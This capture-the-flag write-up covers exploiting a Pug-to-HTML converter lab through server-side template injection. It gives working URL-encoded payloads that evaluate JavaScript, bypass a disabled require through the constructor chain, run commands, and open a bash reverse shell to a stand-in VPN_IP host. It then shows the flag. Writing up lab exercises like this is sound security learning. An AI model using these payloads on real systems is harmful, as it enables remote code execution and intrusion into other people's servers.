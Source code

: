 ```yaml
---
sticker: lucide//book-template
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 5000 | HTTP    |



# RECONNAISSANCE
---

Let's check the website out:


![](Pasted image 20250606121148.png)

We are dealing with something called `PUG to HTML Converter`, **Pug** (formerly called Jade) is a server-side templating engine for Node.js that uses indentation and terse syntax to generate HTML. Under the hood, Pug compiles these templates into JavaScript functions that build an HTML string. Any interpolation tags, like `#{…}` (escaped) or `!{…}` (unescaped), are evaluated as JavaScript expressions at render time.

Let's check an exploit for this: 

![](Pasted image 20250606121717.png)

We got RCE via SSTI, let's proceed to exploitation.

# EXPLOITATION
---


First of all, we should send the request to our proxy, I'll be using Caido:

![](Pasted image 20250606121819.png)

As seen, we got a `template` parameter, let's try doing the SSTI:

```
template=doctype+html%0Ahead%0A++title+Test%0Ah1+Result%3A+%23%7B7*7%7D
```

![](Pasted image 20250606122035.png)


As seen, we get:

```html
<pre>&lt;!DOCTYPE html&gt;&lt;head&gt;&lt;title&gt;Test&lt;/title&gt;&lt;/head&gt;&lt;h1&gt;Result: 49&lt;/h1&gt;</pre>
```


That means `7*7` is being evaluated so, SSTI works, let's try reading more files and even attempt the RCE, let's try using the `require` function:

```js
template=h1+%23%7Brequire%28%27child_process%27%29.execSync%28%27id%27%29.toString%28%29%7D
```


![](Pasted image 20250606122552.png)

Require seems to be disabled on here, we can do a little trick with the `constructor` function:

```js
template=h1+%23%7Bthis.constructor.constructor%28%22return+process%22%29%28%29.mainModule.require%28%27child_process%27%29.execSync%28%27id%27%29.toString%28%29%7D
```

![](Pasted image 20250606122635.png)

There we go, `rce` works, let's send ourselves a reverse shell now:

```js
template=h1+%23%7Bthis.constructor.constructor%28%22return+process%22%29%28%29.mainModule.require%28%27child_process%27%29.execSync%28%22bash+-c+%27bash+-i+%3E%26+/dev/tcp/VPN_IP/4444+0%3E%261%27%22%29%7D
```

![](Pasted image 20250606122827.png)

Nice, we got our shell, no need to perform privilege escalation, we can simply read our flag:

```
find / -type f -name "flag.txt" 2>/dev/null\
/usr/src/app/flag.txt

user@774c7a0d6226:/tmp$ cat /usr/src/app/flag.txt
flag{3cfca66f3611059a0dfbc4191a0803b2}
```

![](Pasted image 20250606123957.png)

